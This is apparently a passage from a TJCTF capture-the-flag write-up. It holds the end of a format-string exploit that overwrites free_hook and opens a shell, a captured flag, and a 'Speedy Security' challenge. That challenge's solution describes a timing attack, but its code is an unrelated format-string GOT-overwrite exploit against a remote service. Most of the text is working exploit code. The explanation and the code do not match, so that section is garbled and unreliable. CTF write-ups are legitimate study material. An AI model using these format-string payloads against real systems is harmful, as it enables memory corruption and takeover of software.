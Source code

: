 ```python
goal = hex(pwn_adrr+0x10000000000000000)[3:]
for i in range(len(goal), 4, -4):
  stage3 = '%{}x'.format(int(goal[i-4:i], 16))
  l = len(stage3)
  stage3 += '%28$n'.ljust(16-l)
  stage3 += p64(free_hook+(16-i)/2)
  send_payload(stage3, True)

send_payload('%65537c')

sh.interactive()
```

Flag: `tjctf{4r3_f0rm47_57r1n65_63771n6_0ld_y37?}`

# Speedy Security - Miscellaneous

## Problem

Written by nthistle

I hear there's a flag hiding behind this new service, Speedy Security(TM). Can you find it?

`nc problem1.tjctf.org 8003`

## Solution

```
$ nc problem1.tjctf.org 8003
Welcome to Speedy Security(TM), where we'll check your password as much as you like, for added security!
How many times would you like us to check each character of your password?
100
Please enter your password:
abcde
Authorization failed!
```

Looking at this problem, I quickly realized that it vulnerable to a timing attack.

If you have 2 correct characters, it is going to take longer than if you only have 1 correct character; therefore, we can guess the password one character at a time.

```python
from pwn import *

# context.log_level = 'debug'
context.binary = './secure'

# sh = process('./secure')
sh = remote('problem1.tjctf.org', 8008)

secret_addr = 0x08048713
puts_got = 0x0804a028

payload = p32(puts_got)
payload += p32(puts_got+2)
payload += '%35$34571x'
payload += '%35$n'
payload += '%36$33009x'
payload += '%36$n'
payload += '\n'

sh.sendafter('> ', '12345\n')
sh.sendafter('> ', payload)
```